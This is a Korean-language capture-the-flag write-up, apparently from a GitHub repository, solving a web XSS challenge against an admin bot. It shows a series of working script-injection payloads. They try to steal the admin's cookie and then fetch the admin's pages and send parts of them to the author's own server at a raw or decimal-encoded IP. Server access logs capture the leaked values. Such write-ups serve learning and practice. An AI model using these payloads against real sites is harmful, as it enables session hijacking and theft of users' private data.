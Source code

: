 또한, alphabet 테이블을 보면 지원하는 문자들이 한정되어 있는 것을 볼 수 있다.     
     
가장 큰 걸림돌은 .(dot)을 사용하지 못한다는 점이었다. Webhook을 지원하는 사이트들의 도메인에 .(dot)이 포함된 경우가 대다수였기에 개인 웹 서버를 필요했다.     
     
AWS EC2 서버를 하나 파서 http://3.35.8.40/?d=hello 이와 같이 입력 받을 수 있는 환경을 구축해주었다.     
     
다음으로, XSS Payload를 작성하는데 삽질을 많이 했다.    
    
`<script>location.href='http://{ip}/?d='+document["cookie"]</script>//`

admin 세션 탈취를 시도해보았지만, httpOnly로 설정되어있어서 탈취할 수 없었다.

그래서, 다음 방법인 "/" 경로에 admin 계정의 /e/{id} 값을 탈취하는 것이었다.
     
/report를 수행하면, adminbot은 https://based.skin/e/{id} 경로를 방문하는데 id 값은 https://based.skin/ 경로에 있기에 fetch(), XMLHttpRequest() 등을 활용하여 Payload를 작성하기로 방향을 잡았다.     
    
`</h2><script>var/**/test="";fetch("/")["then"](response=>response["text"]())["then"](text=>{test=text;});window["location"]["href"]="http://52627496/?d="+test</script>`
     
fetch("/") 이후 HTML 결과를 test 변수에 넣어 location.href를 수행하도록 시도했는데 console에서는 잘 되는데 실제로 입력 값으로 줬을 때, fetch() 시점과 location.href가 실행되는 시점이 달라서인지 실행이 되지 않았다.     

`</h2><script>fetch("/")["then"](response=>response["text"]())["then"](text=>{window["location"]["href"]="http://52627496/?d="+text;});</script>////`
     
그래서, fetch() 안에서 location.href가 실행되도록 했는데 text 값이 넘어오지 않아서 데이터 크기 때문인가 싶어서 일부만 전달하도록 구현해보았다.
     
`</h2><script>fetch("/")["then"](response=>response["text"]())["then"](text=>{window["location"]["href"]="http://52627496/?d="+text["substring"](50,52);});</script>////`
    
text.substring을 활용하여 데이터의 일부를 전달하니 잘 전달되는 것을 확인할 수 있었다.

`</h2><script>fetch("/")["then"](response=>response["text"]())["then"](text=>{var/**/l=text["search"]("/e/");window["location"]["href"]="http://52627496/?d="+text["substring"](l,l+50);});</script>////`   
    
추가적으로, text.search를 활용하여 /e/ 문자열의 index를 찾고 뒤에 부분을 가져오도록 했다.    
     
```bash
31.22.123.45 - - [15/Oct/2023:06:25:23 +0000] "GET /?d=f- HTTP/1.1" 200 205 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/117.0.5938.62 Safari/537.36"

31.22.123.45 - - [15/Oct/2023:06:37:15 +0000] "GET /?d=/e/98def9f5621fc998b913aea476639ebd1a862c43%22%3E98def HTTP/1.1" 200 254 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/117.0.5938.62 Safari/537.36"
```     
      
개인 서버의 access.log 내용을 보면, 값이 잘 넘어오는 것을 볼 수 있다. 31.22.123.45 (adminbot)이 방문한 로그이다. 이제 `/e/98def9f5621fc998b913aea476639ebd1a862c43%22%3E98def`에 접근해주면 값을 얻을 수 있다.    
    
`</h2><script>fetch("/e/98def9f5621fc998b913aea476639ebd1a862c43")["then"](response=>response["text"]())["then"](text=>{var/**/l=text["search"]("subtitle");window["location"]["href"]="http://52627496/?d="+text["substring"](l,l+50);});</script>////`

Payload를 조금 수정하여 전달해주면 아래와 같이 플래그를 획득할 수 있다.    
      
<img src="images/flag.PNG" width="700px"/>   
    